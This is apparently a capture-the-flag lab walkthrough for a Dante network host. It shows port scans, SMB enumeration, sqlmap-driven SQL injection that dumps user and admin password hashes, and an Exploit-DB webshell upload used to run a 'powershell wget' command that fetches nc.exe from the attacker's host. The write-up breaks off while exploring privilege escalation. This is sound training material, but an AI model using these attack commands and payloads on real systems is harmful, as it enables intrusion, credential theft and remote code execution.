We can start by getting all the open servcies over TCP:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ./nmap 172.16.1.102
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 02:24 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:04 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:06 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:11 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 172.16.1.102
Host is up (0.00023s latency).
Not shown: 1175 closed ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  epmap
139/tcp  open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
Nmap done: 1 IP address (1 host up) scanned in 15.07 seconds
```

And for the UDP as well:

```
Nmap done: 1 IP address (1 host up) scanned in 195.60 seconds
root@DANTE-WEB-NIX01:/tmp# ./nmap -sU -F 172.16.1.102

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-02 07:55 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:35 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 28.94% done; ETC: 07:56 (0:00:52 remaining)
Stats: 0:01:00 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 39.78% done; ETC: 07:57 (0:01:11 remaining)
Stats: 0:01:14 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 45.66% done; ETC: 07:57 (0:01:13 remaining)
Nmap scan report for 172.16.1.102
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00037s latency).
Not shown: 112 closed ports
PORT     STATE         SERVICE
123/udp  open|filtered ntp
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
500/udp  open|filtered isakmp
4500/udp open|filtered ipsec-nat-t
5353/udp open|filtered mdns
5355/udp open|filtered hostmon
MAC Address: 00:50:56:B9:34:88 (Unknown)
```

And same here only TCP services are relevant for us so we can start to poke around.

* * *

## MYSQL:

We can see that server is hosting a Mysql server and the default management port is open on 3306/tcp.

Unfortunately we can't do much about it without having a set of valid credentials working. We can move forward and come back if needed later.

* * *

## RDP:

We can see that server is having a RDP service open and running on default port 3389.

Unfortunately we can't do much about it without having a set of valid credentials working. We can move forward and come back if needed later.

* * *

## SMB:

We can start by checking for possible guest accessible shares:



Not that much, but we can start by checking what can we get out of it with Enum4linux-ng:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains enum4linux-ng -A //172.16.1.102
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... //172.16.1.102
[*] Username ......... ''
[*] Random Username .. 'vzamhpvo'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on //172.16.1.102    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  //172.16.1.102:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  //172.16.1.102:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  //172.16.1.102:445 <--socket error or timeout!
[-] Could not connect to SMB on 445/tcp: connection refused
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  //172.16.1.102:139 <--socket error or timeout!
[-] Could not connect to SMB over NetBIOS on 139/tcp: connection refused

 =============================================================
|    NetBIOS Names and Workgroup/Domain for //172.16.1.102    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

[!] Aborting remainder of tests since neither SMB nor LDAP are accessible

Completed after 5.21 seconds
                                                                                                                                                              
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains enum4linux-ng -A 172.16.1.102 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 172.16.1.102
[*] Username ......... ''
[*] Random Username .. 'sururwgi'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =====================================
|    Listener Scan on 172.16.1.102    |
 =====================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 ===========================================================
|    NetBIOS Names and Workgroup/Domain for 172.16.1.102    |
 ===========================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 =========================================
|    SMB Dialect Check on 172.16.1.102    |
 =========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 ===========================================================
|    Domain Information via SMB session for 172.16.1.102    |
 ===========================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: DANTE-WS03
NetBIOS domain name: ''
DNS domain: DANTE-WS03
FQDN: DANTE-WS03
Derived membership: workgroup member
Derived domain: unknown

 =========================================
|    RPC Session Check on 172.16.1.102    |
 =========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ===============================================
|    OS Information via RPC for 172.16.1.102    |
 ===============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '2004'
OS build: '19041'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 6.84 seconds
```

The tool identifies the hostname as DANTE-WS03, a windows 10  19041 not being domain joined.

We can't do much about it here so I will move to the last open service aka HTTP.

* * *

## HTTP:

Surfing manually to the webpage we can see that website is hostng some kind of Marriage system:


So checking for possible exploits I can find several of those:



So we can either use one of those scripts or just use sqlmap to execute same thing. i will start by creating a new user to gain access to the system:



Next we can login:


I will try to catch the request in bupsuite:



See the * is there the payload from a search is going into! The * symbol tells to SQLMAP to target the SQL efforts into. Now I had to turn up a bit the level and risk of the payloads:



```
[17:46:47] [INFO] (custom) POST parameter 'MULTIPART #1*' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Still")
```

And indeed we succeded at dumping the DBs:

```
web application technology: Apache 2.4.54, PHP 7.4.0
back-end DBMS: MySQL >= 5.0.12
[17:47:12] [INFO] fetching database names
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
available databases [5]:
[*] information_schema
[*] mysql
[*] omrsdb
[*] performance_schema
[*] sys

[17:47:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.1.102'
```

And the tables:

```
[17:48:46] [WARNING] reflective value(s) found and filtering out
Database: omrsdb
[3 tables]
+-----------------+
| tbladmin        |
| tblregistration |
| tbluser         |
+-----------------+

[17:48:46] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.1.102'

[*] ending @ 17:48:46 /2023-09-02/
```

And we can see a MD5 of Admin user:

```
Database: omrsdb
Table: tbladmin
[1 entry]
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+
| ID | Email               | Password                         | UserName | AdminName | AdminRegdate        | MobileNumber |
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+
| 1  | admin@hitched.local | c92133030f49c935b1d211490a9d5a4e | admin    | Admin     | 2020-04-27 22:26:03 | 1234567890   |
+----+---------------------+----------------------------------+----------+-----------+---------------------+--------------+

[17:49:24] [INFO] table 'omrsdb.tbladmin' dumped to CSV file '/root/.local/share/sqlmap/output/172.16.1.102/dump/omrsdb/tbladmin.csv'
[17:49:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.1.102'

[*] ending @ 17:49:24 /2023-09-02/
```

And users:

```
Database: omrsdb                                                                                                                                             
Table: tbluser
[15 entries]
+----+---------------------------------------+---------------------+----------+---------------------------------------------+-----------+--------------+
| ID | Address                               | RegDate             | LastName | Password                                    | FirstName | MobileNumber |
+----+---------------------------------------+---------------------+----------+---------------------------------------------+-----------+--------------+
| 1  | ABC-909 hussain marg new delhi 110096 | 2020-04-27 23:12:34 | Singh    | 202cb962ac59075b964b07152d234b70 (123)      | Abir      | 7979778979   |
| 2  | New Delhi India                       | 2020-05-02 03:46:08 | Kumar    | dbd3d5e36317263c5eb713a4b41cdab9            | Anuj      | 1234567890   |
| 3  | 123 Main st                           | 2020-06-08 06:28:03 | mrb3n    | 2f23fa3579f3f75175793649115c1b25 (Pass123)  | mrb3n     | 4012944392   |
| 4  | 123 Main st                           | 2020-06-11 08:08:21 | R        | 2f23fa3579f3f75175793649115c1b25 (Pass123)  | Ben       | 1234567899   |
| 5  | 123 Main st                           | 2020-06-14 16:40:20 | R        | 10487c8581423e8b2fbeed2b21c2cc53            | Ben       | 987654321    |
| 6  | 1337 Leet St.                         | 2020-07-28 01:36:23 | Shaun    | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Shaun     | 123456789    |
| 7  | test                                  | 2020-08-07 05:27:14 | test     | 098f6bcd4621d373cade4e832627b4f6 (test)     | test      | 1231231231   |
| 8  | Please Ignore, Service Health Check   | 2020-09-29 17:10:01 | washere  | 93d8b0de2e809584ac894bceb6a19fe2            | ippsec    | 263096875149 |
| 9  | Please Ignore, Service Health Check   | 2020-12-08 06:13:59 | washere  | 614009f1a4354d57d9200ac9f7658378            | ippsec    | 215468149619 |
| 10 | Please Ignore, Service Health Check   | 2020-12-08 06:17:37 | washere  | 5631c4283f528b314bd77dbb6c144feb            | ippsec    | 577680146517 |
| 11 | omrs_rce                              | 2022-04-22 00:20:20 | omrs_rce | 07f574723750e8fb7bb7a6a0902c5725 (dante123) | omrs_rce  | 381459328    |
| 12 | omrs_rce                              | 2022-04-22 00:27:20 | omrs_rce | 07f574723750e8fb7bb7a6a0902c5725 (dante123) | omrs_rce  | 344367866    |
| 13 | omrs_rce                              | 2022-04-22 00:43:13 | omrs_rce | 07f574723750e8fb7bb7a6a0902c5725 (dante123) | omrs_rce  | 354367866    |
| 14 | test                                  | 2022-07-25 21:57:03 | b        | 098f6bcd4621d373cade4e832627b4f6 (test)     | a         | 123          |
| 15 | avsdvdbsbd                            | 2023-09-02 08:13:45 | Vecio    | 4c210056b0aa6bfba5ec87e0da3fc32d            | Yo        | 3423424234   |
+----+---------------------------------------+---------------------+----------+---------------------------------------------+-----------+--------------+
```

Unfortunately the admin can't be cracked:



let's check if we can upload a revshell via SQLi?



We don't have write permission on the backend. So i decided to use this payload instead: https://www.exploit-db.com/exploits/49557

it basically upload a php webshell during creating of a username via picture, the backend application fails on checking that image should be only a image and not a php file aswelll.

Anyway now we have access on the machine:



So I will first upload a nc copy;

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains python3 49557.py -u http://172.16.1.102/ -c "powershell wget http://10.10.14.8/Tools/nc.exe -outfile nc.exe"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] Registered with mobile phone 581538816 and password 'dante123'
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] PHP shell uploaded
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] Command output

                                                                                                                                                              
┌──(root㉿kali-linux)-[/home/millycash/Downloads/Dante]
└─# proxychains python3 49557.py -u http://172.16.1.102/ -c "dir"                                                           
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] Registered with mobile phone 991589843 and password 'dante123'
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] PHP shell uploaded
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.102:80  ...  OK
[+] Command output
 Volume in drive C has no label.
 Volume Serial Number is EF32-6694

 Directory of C:\Apache24\htdocs\user\images

09/02/2023  09:04 AM    <DIR>          .
09/02/2023  09:04 AM    <DIR>          ..
04/22/2022  12:20 AM                 0 0412c29576c708cf0155e8de242169b11650612028.jpg
04/22/2022  12:27 AM                 0 0412c29576c708cf0155e8de242169b11650612475.jpg
04/22/2022  12:43 AM                 0 0412c29576c708cf0155e8de242169b11650613427.jpg
07/25/2022  09:58 PM                 3 0412c29576c708cf0155e8de242169b11658811510.jpg
09/02/2023  08:59 AM                 0 0412c29576c708cf0155e8de242169b11693670364.jpg
09/02/2023  09:01 AM                 0 0412c29576c708cf0155e8de242169b11693670477.jpg
09/02/2023  09:01 AM                 0 0412c29576c708cf0155e8de242169b11693670482.jpg
09/02/2023  09:01 AM                 0 0412c29576c708cf0155e8de242169b11693670485.jpg
09/02/2023  09:01 AM                 0 0412c29576c708cf0155e8de242169b11693670490.jpg
09/02/2023  09:03 AM                 0 0412c29576c708cf0155e8de242169b11693670589.jpg
09/02/2023  09:03 AM                 0 0412c29576c708cf0155e8de242169b11693670630.jpg
09/02/2023  09:03 AM                 0 0412c29576c708cf0155e8de242169b11693670636.jpg
09/02/2023  09:04 AM                 0 0412c29576c708cf0155e8de242169b11693670672.jpg
09/02/2023  09:04 AM                 0 0412c29576c708cf0155e8de242169b11693670676.jpg
09/02/2023  08:22 AM           115,345 06f9f74f15f7e117f41225ceb95bdbb51693668144.png
09/02/2023  08:59 AM                64 25a452927110e39a345a2511c57647f21693670364.php
09/02/2023  09:01 AM                64 25a452927110e39a345a2511c57647f21693670477.php
09/02/2023  09:01 AM                64 25a452927110e39a345a2511c57647f21693670482.php
09/02/2023  09:01 AM                64 25a452927110e39a345a2511c57647f21693670485.php
09/02/2023  09:01 AM                64 25a452927110e39a345a2511c57647f21693670490.php
09/02/2023  09:03 AM                64 25a452927110e39a345a2511c57647f21693670589.php
09/02/2023  09:03 AM                64 25a452927110e39a345a2511c57647f21693670630.php
09/02/2023  09:03 AM                64 25a452927110e39a345a2511c57647f21693670636.php
09/02/2023  09:04 AM                64 25a452927110e39a345a2511c57647f21693670672.php
09/02/2023  09:04 AM                64 25a452927110e39a345a2511c57647f21693670676.php
09/02/2023  08:22 AM           394,990 b361549b49077d80f424d3cd4cfb89ce1693668144.png
09/02/2023  09:04 AM            38,616 nc.exe
              27 File(s)        549,594 bytes
               2 Dir(s)   9,034,088,448 bytes free
```

And next we should get a shell:





* * *

## PE:

Now that we are in we should find a way to get all the flags. Starting by blakes home directory:



Next we can see that blake have impersonation priviledge:



This mean we can use Prinspooler or similar to gain acces to NT System. But i see aswell a strange file under C:/ which might be either a leffover from other users or a possible legit file that have to be "Buffer Overflowed":



Now let's check again the exact build version:

